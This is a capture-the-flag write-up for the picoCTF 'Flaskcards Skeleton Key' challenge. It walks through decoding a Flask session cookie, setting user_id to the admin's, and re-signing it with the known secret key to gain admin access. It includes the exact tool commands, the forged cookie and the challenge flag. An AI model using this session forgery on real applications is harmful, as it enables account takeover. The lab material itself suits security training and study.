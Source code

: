 # Flaskcards Skeleton Key - Points: 600

1. First, lets go through the website : http://2018shell.picoctf.com:5953/
2. Then, lets register and login.
3. Next, lets read the hints
    "What can you do with a flask Secret_Key?"
    I google the whole sentence and get the [result](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key). To be brief, it is used for encrypt sessions.
4. Now, lets check the value in cookies : 
    ```
    session : .eJwlj0FqQzEMRO_idRayZVtyLvORJQ8NgRb-T1ald4-h24F58-Y3HTjX9ZXur_O9bul4RLonoISgU47ViGAQsEeMAbMhNCGqBhavPSRI8lyz0epqNcSkCUgl-0TkHm4thilGZOhS7aW3yBWYVJwz-gTnWShySHNZTJpuya8Tx-vnub63T5RCtWxUcKuhVXkPjE7izdhH2YkNcN2997XO_xMt_X0AqNpABA.EPhT8Q.nS3olkaxqAV8RlfE5PGJw-NxrR0
    ```
    Lets decode it by [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager). Here is the payload : 
    ```
    python3 flask_session_cookie_manager3.py decode -c ".eJwlj0FqQzEMRO_idRayZVtyLvORJQ8NgRb-T1ald4-h24F58-Y3HTjX9ZXur_O9bul4RLonoISgU47ViGAQsEeMAbMhNCGqBhavPSRI8lyz0epqNcSkCUgl-0TkHm4thilGZOhS7aW3yBWYVJwz-gTnWShySHNZTJpuya8Tx-vnub63T5RCtWxUcKuhVXkPjE7izdhH2YkNcN2997XO_xMt_X0AqNpABA.EPhT8Q.nS3olkaxqAV8RlfE5PGJw-NxrR0"
    ```
    Then, I get the result : 
    ```
    {
        "_fresh":true,
        "_id":"ff2d7f601de500faf7f3cdd99faa970bf788af37c46d7d071beb50e68a4d7a757f0871cbfd16dca5d9a8f9d1f8e886265d14ffb02c31f6bf31b20d1d75c7e308",
        "csrf_token":"d220426dcd354d8483f089607c5a3c92848a9f34",
        "user_id":"5"
    }
    ```
    Remember our goal : login as admin, so we have to change the user_id and encrypt by secret_key and change the value of cookie. Here is the new payload : 
    ```
    {
        "_fresh":True,
        "_id":"ff2d7f601de500faf7f3cdd99faa970bf788af37c46d7d071beb50e68a4d7a757f0871cbfd16dca5d9a8f9d1f8e886265d14ffb02c31f6bf31b20d1d75c7e308",
        "csrf_token":"d220426dcd354d8483f089607c5a3c92848a9f34",
        "user_id":"1"
    }
    ```
    p.s. Cuz in python is **T**rue and **F**alse. If you input true to encrypt, it can not work.
    Then, we encode it by the payload : 
    ```
    python3 flask_session_cookie_manager3.py encode -s "06f4eefabf03b8f4e521fbdada13f65c" -t '{
        "_fresh":True,
        "_id":"ff2d7f601de500faf7f3cdd99faa970bf788af37c46d7d071beb50e68a4d7a757f0871cbfd16dca5d9a8f9d1f8e886265d14ffb02c31f6bf31b20d1d75c7e308",
        "csrf_token":"d220426dcd354d8483f089607c5a3c92848a9f34",
        "user_id":"1"
    }'
    ```
    And the result is : 
    ```
    .eJwlj0tqA0EMRO_Say-k_kntywzqlooYQwIz9irk7m7ItqBevfpNB864vtL9db7jlo6Hp3sCsgs6sUcjgkFQlvsYMBtCE6JqKLJqd3ESnjEbRVerLiZNQCq8Jpy7L2s-TDGcoaHac2_OFZiUV2H0icIzk7NLWxKFNN3Suk4cr59nfG8fz5lq3igvrbpWLXtgdJLVrKyRd2IDpe7e-4rz_wSnvw-ozkAA.EPhWAQ.80IJwwwBb9d11pjUUVioZlhpybw
    ```
5. After we change the value of session, we would find out that we are admin. Then we press "Admin" next to "List Cards" and get the flag.
6. Here is the flag : picoCTF{1_id_to_rule_them_all_1879a381}
